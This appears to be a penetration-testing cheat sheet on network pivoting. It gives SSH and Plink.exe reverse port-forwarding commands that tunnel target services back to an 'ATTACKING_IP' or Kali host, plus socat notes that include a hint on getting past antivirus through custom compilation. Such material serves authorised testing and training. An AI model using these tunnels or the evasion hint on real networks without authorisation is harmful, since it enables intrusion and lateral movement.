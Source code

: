 ```
firewall-cmd --list-all
```


# Pivoting 
https://exploit-notes.hdks.org/exploit/network/port-forwarding/port-forwarding-with-socat/#port-forwarding-(from-remote-machine)


[All in one Static Binaries](https://github.com/andrew-d/static-binaries)
## Pivoting using SSH and Proxychains

### Port Forwarding
```
ssh -L 8000:<webserver_address>:80 user@<ipaddress> -fN
```

Port Forwarding `-L`
Proxies `-D`


### Reverse Port Forward

```
ssh -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -fN
```

```
ssh -R 2222:17.16.0.100:22 kali@17.16.0.200 -i id_rsa -fN
```
 
Reverse Forwarding`-R`


### Windows (Plink.exe) | Puttygen

```
cmd.exe /c echo y | .\plink.exe -R LOCAL_PORT:TARGET_IP:TARGET_PORT USERNAME@ATTACKING_IP -i KEYFILE -N
```

```
cmd.exe /c echo y | .\plink.exe -R 8000:172.16.0.10:80 kali@172.16.0.20 -i KEYFILE -N
```

`cmd.exe /c echo y` at the start is for non-interactive shells



### Socat | Fully Stable Linux Shell

- Superb for Port Forwarding
- rarely installed by default on a target
- Windows version is unlikely to bypass Antivirus software by default, so custom compilation may be required
